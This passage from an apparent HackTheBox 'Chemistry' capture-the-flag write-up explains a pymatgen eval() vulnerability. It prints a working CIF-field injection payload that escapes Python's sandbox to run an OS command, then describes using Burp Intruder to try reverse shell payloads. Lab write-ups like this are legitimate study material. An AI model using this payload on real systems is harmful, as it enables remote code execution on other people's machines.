 The CVE highlights an exploit in the `pymatgen` library allows for code execution. This is due to the use of the `eval()` function which executes strings as python code

We can see the exploit line as follows

```python
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("touch pwned");0,0,0'
```

We can modify this to include a reverse shell. We're not sure what reverse shell will actually work, so let's go ahead and capture the upload request in Burp

![Intruder Image](/assets/images/HTB%20-%20Chemistry/Intruder%20Request%20Chemistry.png)

Now let's head over to payloads and add some basic reverse shell payloads

![Payload](/assets/images/HTB%20-%20Chemistry/Payload.png)

